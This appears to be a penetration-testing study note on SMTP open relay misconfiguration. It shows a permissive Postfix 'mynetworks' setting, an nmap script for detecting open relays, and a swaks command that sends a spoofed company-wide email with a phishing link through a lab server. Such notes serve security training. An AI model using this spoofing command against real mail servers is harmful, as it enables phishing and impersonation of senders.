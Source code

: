 
----------------------------------
# OPEN RELAY CONFIGURATION
-----
- Open Relay is a SMTP server, improperly configured and allows unauthenticated email relay
- Attackers can send phishing emails as non-existing users or spoof emails to compormise targets.
```bash
mynetworks = 0.0.0.0/0
```
- With this setting, this SMTP server can send fake emails and thus initialize communication between multiple parties/ spoof the email and read it.
- nmap scan
```bash
nmap -p25 -Pn --script smtp-open-relay $IP
```
- Use any mail client to connect to the mail server and send our emails
```bash
swaks --from notification@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```